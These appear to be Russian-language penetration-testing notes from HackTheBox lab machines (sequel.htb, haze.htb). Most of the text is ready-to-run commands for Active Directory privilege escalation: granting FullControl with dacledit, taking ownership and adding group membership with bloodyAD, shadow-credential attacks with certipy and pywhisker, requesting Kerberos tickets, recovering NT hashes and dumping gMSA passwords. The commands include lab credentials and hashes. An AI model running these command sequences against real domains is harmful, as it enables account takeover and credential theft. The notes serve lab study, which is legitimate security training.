     python3 dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"WqSZAF6CysDQbGb3"
    После предоставления полного доступа для получения хэша пользователя ca_svc нам нужно выполнить атаку с использованием теневых учётных данных. Эта атака добавляет ключ пользователя ryan в msDS-KeyCredentialLink пользователя ca_svc. После этого пользователь ryan становится копией пользователя ca_svc. Для этого мы можем использовать инструмент certipy следующим образом

    еще раз SHADOW Credentials
    certipy shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip '10.10.11.51'
   
   # Write Owner

 делаем себя владельцем
 bloodyAD --host "10.10.11.61" -d "haze.htb" -u "Haze-IT-Backup$" -p ":84d6a733d85d9e03f46eba25b34517a9" set owner SUPPORT_SERVICES Haze-IT-Backup$

 добавляем все права

 impacket-dacledit -action write -rights FullControl -principal 'Haze-IT-Backup$' -target-dn 'CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB' -dc-ip 10.10.11.61 "haze.htb/Haze-IT-Backup$" -hashes ':84d6a733d85d9e03f46eba25b34517a9'


 добавляем себя в группу
 bloodyAD --host "10.10.11.61" -d "haze.htb" -u "Haze-IT-Backup$" -p ":84d6a733d85d9e03f46eba25b34517a9" add groupMember SUPPORT_SERVICES Haze-IT-Backup$

 делаем SHADOW CREDENTIALS
 python ./pywhisker/pywhisker.py -d "haze.htb" -u "Haze-IT-Backup$" -H '84d6a733d85d9e03f46eba25b34517a9' --target edward.martin --action add 

 запрашиваем TGT
 python ./PKINITtools/gettgtpkinit.py -cert-pfx yraSYsjJ.pfx  -pfx-pass jfew7VTdOnphPokoLwAF haze.htb/edward.martin edward.ccache

 Получение нтлм хеша из ключ сессии Kerberos

 python getnthash.py -key b5fbdc5fe339b991ac044d8e82fcabf94e01cc86feeaba0be192391073d0b5e0 haze.htb/edward.martin

# ЧитатьGMSAPassword 

    кто может прочитать пароль закрытой службы (учетной записи)
    python gMSADumper.py -u 'mark.adams' -p 'Ld@p_Autxxxxxxxxxxx' -d haze.htb

    также 
    Get-ADServiceAccount -Identity Haze-IT-Backup$ | Select-Object Name, ObjectClass

    если Марк входит в группу администраторов gMSA
    Set-ADServiceAccount -Identity "Haze-IT-Backup$" -PrincipalsAllowedToRetrieveManagedPassword "mark.adams"

    Get-ADServiceAccount -Identity "Haze-IT-Backup$" -Properties PrincipalsAllowedToRetrieveManagedPassword
